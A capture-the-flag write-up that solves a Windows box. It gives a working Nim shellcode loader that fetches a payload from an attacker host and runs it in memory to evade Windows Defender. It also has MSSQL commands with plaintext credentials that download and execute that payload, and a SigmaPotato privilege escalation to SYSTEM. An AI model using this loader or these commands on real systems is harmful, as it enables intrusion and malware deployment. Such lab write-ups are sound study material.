


# PotatoHead (root)

Writeup by: solli

## Summary

1. Upload loader/agent to machine using mssql
2. Abuse `SeImpersonatePrivilege` using a `potato` to spawn a new process as SYSTEM
3. Read the flag

## Bypassing defender

Getting a better shell on the box was not as simple as simply requesting a reverse shell with PowerShell or uploading an agent. This was due to Windows Defender actively blocking and removing files it deemed suspicious. 

I wanted to use a C2 framework with an open-source agent to further explore the machine. However, Defender did not like this.

To bypass this issue, one possible solution is to split the agent's execution into two stages. The first stage, a loader, fetches the agent from a different location and executes it in-memory. This approach helps evade detection by avoiding the presence of the binary on disk and potentially bypassing some static signatures.

To achive this I picked the first shellcode loader I found online, and for the occation someone had mentioned that there was a few ones written in Nim that might do the work. This blog post had an example that worked well:
- https://www.numencyber.com/defeating-windows-defender-using-different-programming-languages-with-sliver-c2-shellcode/

The loader then looked like this:

```nim
import winim
import winim/lean
import httpclient
func toByteSeq*(str: string): seq[byte] {.inline.} =
    @(str.toOpenArrayByte(0, str.high))
proc DownloadExecute(url:string):void=
    var client = newHttpClient()
    var response: string = client.getContent(url)
    
    var shellcode: seq[byte] = toByteSeq(response)
    let tProcess = GetCurrentProcessId()
    var pHandle: HANDLE = OpenProcess(PROCESS_ALL_ACCESS, FALSE, tProcess)
    
    let rPtr = VirtualAllocEx(pHandle,NULL,cast[SIZE_T](len(shellcode)),0x3000,PAGE_EXECUTE_READ_WRITE)
defer: CloseHandle(pHandle)
    copyMem(rPtr, addr shellcode[0], len(shellcode))
    let f = cast[proc(){.nimcall.}](rPtr)
    f()
when defined(windows):
    when isMainModule:
        DownloadExecute("http://10.128.2.104:8000/b")
```

This could be compiled with:

```bash
└─$ nim c -d:mingw -d:danger -d:strip --opt:size "loader.nim" 
```

Next, we can upload the loader to the pwnbox, along with a shellcode version of our agent code. Upon execution, we should see a callback that fetches the agent itself, and hopefully, receive an indication that the agent is running on the machine in our C2.

```bash
└─$ python3 -m http.server
└─$ nxc mssql 10.128.5.11 -u sa -p RLFXT0PpAtk2IAyB1xKnuaFaqDX --local-auth -x 'curl http://10.128.2.104:8000/a -o %TEMP%\a.exe' 
└─$ nxc mssql 10.128.5.11 -u sa -p RLFXT0PpAtk2IAyB1xKnuaFaqDX --local-auth -x '%TEMP%\a.exe'
```


## Privilege escalation

Historically, if you have the `SeImpersonatePrivilege` as a user on Windows you will be able to elevate your privileges to SYSTEM, as evidenced by the numerous "potato" implementations. Fortunately, we have this privilege in our current user context, which should allow us to abuse the some of these vulnerabilities.

```
$ whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

A newer "potato" option for this exploit is `SigmaPotato`, an extension of `GodPotato`. This tool leverages vulnerabilities in the `rpcss` service, which runs as the SYSTEM user. Additional details on the `Potatos` can be found on the following links.
- https://github.com/tylerdotrar/SigmaPotato
- https://github.com/BeichenDream/GodPotato
- https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer.html

Defender can block a binary from running if it's simply uploaded to disk. However, since we're using a more feature-rich agent, we can leverage its capabilities to evade Defender.

The agent I used for this task was Apollo, a demo agent used with Mythic. Apollo supports inline execution of .NET assemblies, which means the file is executed in-memory within the current process. This approach helps bypass Defender, as it avoids creating a separate process that might be subject to stricter scrutiny.
- https://deepwiki.com/MythicAgents/Apollo/5.2-assembly-execution

Using `SigmaPotato`, we can execute our loader once more, this time escalating to the SYSTEM user and obtaining another agent running with elevated privileges.

Mythic inline execution command:
```
inline_assembly {"assembly_name":"SigmaPotato.exe","assembly_arguments":""%TEMP%\a.exe""}
```

```
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 936 | Token: 0x792 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 4904
[+] Current Command Length: 21 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 5936
```



Now we can read the flag.



Flag: `EPT{sweet_juicy_god_bakt_potet_paa_ruten}`